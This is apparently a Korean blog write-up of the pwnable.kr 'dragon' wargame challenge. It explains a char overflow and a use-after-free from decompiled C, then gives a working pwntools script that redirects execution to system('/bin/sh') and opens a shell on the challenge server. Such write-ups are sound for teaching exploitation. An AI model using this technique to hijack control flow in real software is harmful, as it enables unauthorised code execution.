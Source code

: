 ```yaml
---
layout: post
title: "pwnable.kr - dragon"
date: 2018-11-09
excerpt: "Char overflow + UAF"
tags: [write-up]
comments: true
---
```

쉬운 문제이니 바로 Exploit을 설명하겠습니다.

### Exploit

- dragon의 체력은 character 형이기 때문에 127을 넘어가면 overflow로 인해 음수 값을 갖게 됩니다.

- Mama Dragon의 체력이 80이기 때문에, Priest를 선택하고 4번을 버티면 체력이 127을 넘어가 이길 수 있습니다.

- dragon의 체력이 0 이하로 내려가면 dragon은 free 됩니다.
```c
.
.
while ( *(dragon + 8) > 0 );                  // dragon health
free(dragon);

return 1;
```

- 이후 malloc(0x10)을 한 위치에 scanf로 입력을 받게 되는데, bin list에는 dragon이 들어가있기 때문에 dragon 위치에 malloc됩니다.
```c
if ( v3 )
  {
    puts("Well Done Hero! You Killed The Dragon!");
    puts("The World Will Remember You As:");
    v2 = malloc(0x10u);
    __isoc99_scanf("%16s", v2);
    puts("And The Dragon You Have Defeated Was Called:");
    (*dragon)(dragon);
  }
```
- (*dragon)(dragon)에 의해 UAF가 발생해 name으로 입력한 값을 실행하게 되는데, 여기서 SecretLevel의 주소를 입력해 쉘 취득이 가능합니다.

- SecretLevel의 소스는 다음과 같습니다.
```c
unsigned int SecretLevel()
{
  char s1; // [esp+12h] [ebp-16h]
  unsigned int v2; // [esp+1Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  printf("Welcome to Secret Level!\nInput Password : ");
  __isoc99_scanf("%10s", &s1);
  if ( strcmp(&s1, "Nice_Try_But_The_Dragons_Won't_Let_You!") )
  {
    puts("Wrong!\n");
    exit(-1);
  }
  system("/bin/sh");
  return __readgsdword(0x14u) ^ v2;
}
```
10 바이트 입력을 받는데 "Nice_Try_But_The_Dragons_Won't_Let_You!"을 모두 입력할 수 없으므로

system("/bin/sh") 하는 위치로 바로 뛰어주면 됩니다.

exp.py
```python
from pwn import *

#p = process('./dragon')
p = remote('pwnable.kr', 9004)

p.sendline('1')
p.sendline('2')
p.sendline('2')

p.sendline('1')

for i in range(4):
	p.sendline('3')
	p.sendline('3')
	p.sendline('2')

p.sendline(p32(0x08048dbf))

p.interactive()
```

![shell](https://t1.daumcdn.net/cfile/tistory/99705B3A5BE4D25134)
